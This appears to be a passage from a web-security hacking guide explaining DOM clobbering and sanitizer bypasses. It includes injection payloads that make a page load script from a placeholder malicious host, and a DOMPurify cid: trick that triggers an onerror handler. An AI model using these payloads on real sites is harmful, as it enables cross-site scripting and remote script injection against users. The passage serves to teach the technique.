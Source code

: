 ```
requestFileSystem()
RegExp()
```

## **DOM Clobbering**

A common pattern used by JavaScript developers is:

`var someObject = window.someObject || {};`

If you can control some of the HTML on the page, you can clobber the `someObject` reference with a DOM node, such as an anchor. Consider the following code:

```python
<script>
 window.onload = function(){
    let someObject = window.someObject || {};
    let script = document.createElement('script');
    script.src = someObject.url;
    document.body.appendChild(script);
 };
</script>
```

To exploit this vulnerable code, you could inject the following HTML to clobber the `someObject` reference with an anchor element:

`<a id=someObject><a id=someObject name=url href=//malicious-website.com/malicious.js>`

Injecting that data `window.someObject.url` is going to be `href=//malicious-website.com/malicious.js`

**Trick**:  `DOMPurify` allows you to use the **`cid:`** protocol, which **does not URL-encode double-quotes**. This means you can **inject an encoded double-quote that will be decoded at runtime**. Therefore, injecting something like `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">` will make the HTML encoded `&quot;` to be **decoded on runtime** and **escape** from the attribute value to **create** the **`onerror`** event.

Another common technique consists on using **`form`** element. Some client-side libraries will go through the attributes of the created form element to sanitised it. But, if you **create an `input`**inside the form with `id=attributes` , you will **clobber the attributes property** and the sanitizer **won't** be able to go through the **real attributes**.
